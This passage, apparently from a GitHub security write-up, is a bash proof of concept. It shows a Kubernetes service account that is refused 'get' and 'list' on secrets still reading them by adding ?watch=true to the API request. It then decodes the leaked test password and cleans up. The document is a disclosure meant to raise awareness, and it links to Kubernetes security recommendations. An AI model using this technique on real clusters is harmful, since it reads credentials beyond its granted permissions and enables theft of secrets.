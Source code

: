 ```bash
  "reason": "Forbidden",
  "details": {
    "name": "abcd",
    "kind": "secrets"
  },
  "code": 403
}

curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets --insecure
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "secrets is forbidden: User \"system:serviceaccount:default:watch-sa\" cannot list resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "reason": "Forbidden",
  "details": {
    "kind": "secrets"
  },
  "code": 403
}
  
# Now to get all secrets in the default namespace, despite not having "get" permission
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets?watch=true --insecure
{"type":"ADDED","object":{"kind":"Secret","apiVersion":"v1","metadata":{"name":"abcd","namespace":"default","uid":"bd1b0f74-ce54-47c4-a1dc-91893848e4ed","resourceVersion":"477","creationTimestamp":"2023-12-18T13:30:41Z","managedFields":[{"manager":"kubectl-create","operation":"Update","apiVersion":"v1","time":"2023-12-18T13:30:41Z","fieldsType":"FieldsV1","fieldsV1":{"f:data":{".":{},"f:secretPassword":{}},"f:type":{}}}]},"data":{"secretPassword":"dmVyeVNlY3VyZQ=="},"type":"Opaque"}}"

# crtl+c to stop curl as this http request will continue

# Proving that we got the full secret
echo "dmVyeVNlY3VyZQ==" | base64 -d
verySecure

# Cleanup
kubectl delete serviceaccount $serviceName
kubectl delete role $roleName 
kubectl delete rolebinding $roleBindingName --role=$roleName --serviceaccount=default:$serviceName
kubectl delete secret abcd

```

### References

Kubernetes security recommendations for developers:
<https://kubernetes.io/docs/concepts/configuration/secret/#security-recommendations-for-developers>
